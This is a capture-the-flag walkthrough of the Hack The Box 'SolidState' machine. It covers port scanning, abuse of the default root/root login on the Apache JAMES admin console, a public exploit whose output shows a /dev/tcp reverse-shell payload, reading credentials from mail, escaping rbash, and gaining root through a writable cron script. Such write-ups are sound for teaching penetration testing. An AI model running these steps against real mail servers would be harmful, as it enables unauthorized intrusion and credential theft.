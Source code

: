 # SolidState
SolidState is a medium HTB lab that focuses on mail clients vulnerability, sensitive information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

<!-- toc -->

### Reconnaissance
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.8.102

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-27 19:22 GMT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 19:26 (0:02:34 remaining)
Nmap scan report for 10.129.8.102
Host is up (0.086s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3?
119/tcp  open  nntp?
4555/tcp open  rsip?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 413.05 seconds
```

Found new email id `webadmin@solid-state-security.com` but that domain doesn't give any additional information.

From the nmap scan, we can see that the target machine is running ssh service on port 22, a web server on port 80, 110 for pop3 server and 119 nntp server. After some digging around, finally found the next to check out the port 110 and port 119.

```
$ telnet 10.129.8.102 110

+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 

$ telnet 10.129.8.102 119`.

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
list
200 solidstate NNTP Service Ready, posting permitted
215 list of newsgroups follows
org.apache.james.dev 0 0 y
org.apache.avalon.dev 0 0 y
org.apache.avalon.user 0 0 y
org.apache.james.user 0 0 y
```

### User

##### Web Attack

Searching online for public exploits. we can find two exploit for *JAMES POP3 Server 2.3.2* with `https://www.exploit-db.com/exploits/35513` and `https://www.exploit-db.com/exploits/50347`.
Using the exploit `50347`, to get a new user added as root for management.

```
$ python2.7 50347.py 10.129.8.102 10.10.14.119 4444

('[+]Payload Selected (see script for more options): ', '/bin/bash -i >& /dev/tcp/10.10.14.119/4444 0>&1')
('[+]Example netcat listener syntax to use after successful execution: nc -lvnp', '4444')
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).
("[+]Don't forget to start a listener on port", '4444', 'before logging in!')
```

```
$ nc 10.129.8.102 4555

JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy pass
Password for mindy reset
```

##### Reading leak credentials
Even if no one logged in during the time, we can manual check out the server based on the user added to the server. We can now log-in as the user mindy with the new password and search of any sensitive emails available.

```
$ telnet 10.129.8.102 110

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
user mindy
pass pass
list
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
+OK Welcome mindy
+OK 2 1945
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

##### Getting access as user

Based on these new credentials, we can login and get the flag.

```
$ ssh mindy@10.129.8.102
P@55W0rd1!2@

$ cat user.txt
~FLAG~
```

### Privilege Escalation

We can see that its a restricted shell. We can now look for binaries available to us.

```
mindy@solidstate:~$ cat bin/

cat  env  ls   
```

Tip for rbash Escape from https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html: 
The first thing I try when facing SSH into rbash is adding -t bash to the SSH connection command. This will run bash on connect instead of the assigned shell. It works here (though it does produce a busted prompt), and I an now run id and cd:

```
$ sshpass -p 'P@55W0rd1!2@' ssh mindy@10.129.8.102 -t bash
```
Investigating using pspy32, we can find that root is actually invoking the tmp.py file.

```
$ ./pspy32

2023/12/27 20:42:01 CMD: UID=0     PID=9545   | python /opt/tmp.py 
2023/12/27 20:42:01 CMD: UID=0     PID=9546   | sh -c rm -r /tmp/*  
```
You would find that /opt folder has some additional files which can help with escalation including the tmp.py file above. Also we have write access to this file.

```
$ ls -l /opt/

drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Updated the code of `tmp.py` to below.

```
$ cat tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ; cat /root/root.txt >> /home/mindy/dummy.txt;')
except:
     sys.exit()
```

Now wait for the script to run again and then we can get flag using `cat ~/dummy.txt`:
```
$ cat ~/dummy.txt
~FLAG~
```

